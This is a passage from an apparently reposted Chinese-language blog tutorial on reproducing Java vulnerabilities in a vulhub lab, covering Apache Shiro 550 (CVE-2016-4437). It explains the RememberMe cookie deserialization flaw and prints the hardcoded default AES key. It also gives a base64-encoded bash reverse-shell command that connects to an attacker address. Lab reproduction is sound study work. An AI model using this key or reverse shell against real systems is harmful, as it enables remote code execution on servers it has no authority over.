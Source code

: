 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzU2MjY1ODEwMA==&mid=2247492212&idx=1&sn=d5b473f62fc06b60c4bf8a71d3bd2de1

#  JAVA常见漏洞复现  
quan9i  知微守望   2025-07-03 09:40  
  
# Shiro  
## Shiro 550  
### 漏洞原理  
  
**Shiro550**  
漏洞原理是Shiro框架提供了一种记住密码(Rememberme)的功能，用户登录成功后会生成经过加密的Cookie值，对Remembe的Cookie进行AES解密、Base64解密后再反序列化，就导致了反序列化RCE漏洞 。 Shiro<1.2.4版本，其使用的密钥为固定密钥
```
Shiro550kPH+bIxk5D2deZiIxcaaaA==
```

  
，这就更容易导致RCE漏洞  
### 漏洞复现  
  
用vulhub复现  

```
cd vulhub/shiro/CVE-2016-4437
```

  
而后开启服务  

```
docker-compose up -d 
//-d是后台运行，加不加皆可
```

  
![image-20230418233245340](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5BhpMITg7bku4uZ3Y375ArV2uib4S582ic46LFsGHRaIM4sEGwNDuvECg/640?wx_fmt=png&from=appmsg "")  
  
访问  
  
![image-20230418233350484](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5GapE0NbbHSXvwJ1SqHERY7N2eWqCbmRse0Nu00cJN2O6g6vd0jb8Og/640?wx_fmt=png&from=appmsg "")  
#### 脚本  
  
攻击端开启监听  
  
![image-20230418235121526](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5ZNCWHwFeNzJSIE4perclZdjG9sqnav4vjLQxQqc2Q27dNXib2icm5bbw/640?wx_fmt=png&from=appmsg "")  
  
而后构造反弹shell语句，在线生成编码后的反弹shell网站  
  
https://ares-x.com/tools/runtime-exec  

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}
//bash -c {echo,bash -i >& /dev/tcp/192.168.1.129/6666 0>&1}|{base64,-d}|{bash,-i}
```
